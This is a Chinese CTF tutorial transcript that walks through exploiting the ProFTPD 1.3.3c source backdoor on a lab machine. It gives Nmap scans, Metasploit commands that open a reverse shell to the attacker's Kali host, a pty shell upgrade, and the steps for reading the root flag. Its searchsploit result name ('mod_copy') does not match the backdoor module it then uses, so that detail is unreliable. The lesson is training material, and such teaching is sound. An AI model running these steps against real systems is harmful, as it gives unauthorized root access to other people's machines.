










# CTF夺旗全套视频教程-网络安全：P7：FTP服务后门利用 🚩

在本节课中，我们将学习如何利用FTP服务的安全漏洞，通过探测、分析、利用漏洞并最终获取目标主机的root权限和flag值。

## 概述：FTP服务与实验环境



FTP是文件传输协议的英文简称，中文称为文件协议。它用于在Internet上控制文件的双向传输，同时也是一个应用程序。基于不同操作系统有不同的FTP服务，但所有应用程序都遵守同一种协议来传输文件。



在FTP使用中，用户常遇到两个概念：**下载**和**上传**。下载文件是从远程主机拷贝文件到自己的计算机，上传文件则是将文件从自己的计算机拷贝到远程主机。用户可以通过客户端程序从远程主机上传或下载文件。

**实验环境**如下：
*   **攻击机**：Kali Linux，IP地址为 `192.168.1.105`。
*   **靶场机器**：Ubuntu系统，IP地址为 `192.168.1.100`。

我们的目标是获取靶场机器的flag值，即取得其最高权限。

## 第一步：信息收集与探测



上一节我们介绍了实验环境，本节中我们来看看如何探测靶场机器。首先，我们需要探测靶场机器上开放的服务及其版本。使用Nmap工具进行扫描。

以下是两种常用的扫描命令：

1.  **扫描服务版本**：使用 `-sV` 参数。
    ```bash
    nmap -sV 192.168.1.100
    ```
    此命令会向目标发送数据包，分析返回的响应以识别服务及其版本。

2.  **全面扫描**：使用 `-T4 -A -v` 参数组合。
    ```bash
    nmap -T4 -A -v 192.168.1.100
    ```
    *   `-T4`：使用最快速度扫描。
    *   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
    *   `-v`：显示详细输出。

扫描完成后，我们获得了靶场机器的开放端口信息：21端口（FTP服务）、22端口（SSH服务）和80端口（HTTP服务）。本次攻击的目标是FTP服务。

## 第二步：漏洞分析与查找

在扫描结果中，我们发现了FTP服务的敏感信息：软件名称 `ProFTPD` 及其具体版本号。

接下来，我们需要查找该版本软件是否存在已知漏洞。使用 `searchsploit` 工具进行搜索。

```bash
searchsploit ProFTPD 1.3.3c
```
搜索结果显示存在一个名为 “ProFTPD 1.3.3c - ‘mod_copy’ Command Execution (Metasploit)” 的远程代码执行漏洞，该漏洞源于源代码中的一个后门。



我们可以查看该漏洞的详细利用代码，但更便捷的方式是使用已经集成此漏洞的Metasploit框架进行利用。

## 第三步：利用Metasploit进行攻击

上一节我们找到了可利用的漏洞，本节中我们来看看如何使用Metasploit框架实施攻击。



首先，启动Metasploit控制台。
```bash
msfconsole
```
启动后，在msf控制台内搜索该漏洞模块。
```msf
search ProFTPD 1.3.3c
```
找到对应的漏洞利用模块（exploit）后，使用 `use` 命令加载它。
```msf
use exploit/unix/ftp/proftpd_133c_backdoor
```
接着，查看该模块可用的攻击载荷（payload）。
```msf
show payloads
```
我们选择 `cmd/unix/reverse` 这个载荷。设置攻击载荷。
```msf
set payload cmd/unix/reverse
```
现在，需要配置攻击所需的参数。使用 `show options` 查看需要设置的参数。
```msf
show options
```
以下是需要设置的关键参数：
*   `RHOSTS`：靶场机器的IP地址。
    ```msf
    set RHOSTS 192.168.1.100
    ```
*   `LHOST`：攻击机（Kali）的IP地址，用于接收反弹的shell。
    ```msf
    set LHOST 192.168.1.105
    ```
参数设置完成后，再次使用 `show options` 确认。最后，执行攻击。
```msf
exploit
```
如果攻击成功，我们将获得一个远程shell会话。输入 `id` 命令，可以看到我们已经直接获得了 `root` 权限。

## 第四步：优化Shell与寻找Flag





获得的初始shell可能功能不全或显示不友好。我们可以使用Python来生成一个功能更完整的交互式shell。



在获得的meterpreter或shell会话中执行以下命令：
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```
执行后，我们将获得一个更美观、功能更全的bash shell。

接下来，开始寻找flag值。在CTF比赛中，flag通常存放在服务器的根目录或特定目录下。

首先，查看当前目录。
```bash
pwd
```
切换到根目录并列出文件。
```bash
cd /root
ls -alh
```
通常，flag文件名为 `flag` 或 `flag.txt`。使用 `cat` 命令查看其内容。
```bash
cat flag
```
记录下显示的flag值，即可提交得分。

## 总结与思考



本节课中我们一起学习了针对FTP服务的完整渗透流程。



**总结步骤如下**：
1.  **信息收集**：使用Nmap扫描目标，识别开放服务（如FTP）及其版本。
2.  **漏洞查找**：根据服务版本，利用 `searchsploit` 或漏洞数据库查找公开漏洞。
3.  **漏洞利用**：使用Metasploit等框架，配置并执行对应的漏洞利用模块，获取初始访问权限。
4.  **权限提升与后渗透**：优化shell环境，在系统中寻找并读取flag文件。

**核心要点**：对于开放了FTP、SSH、Telnet等服务的系统，不应只关注Web攻击面。每一个开放端口、每一项服务及其版本信息都可能是突破口。利用公开的漏洞利用代码（EXP）快速获取权限是CTF比赛和渗透测试中的常见技巧。


通过本课的学习，你应该掌握了从服务探测到漏洞利用获取flag的基本思路和方法。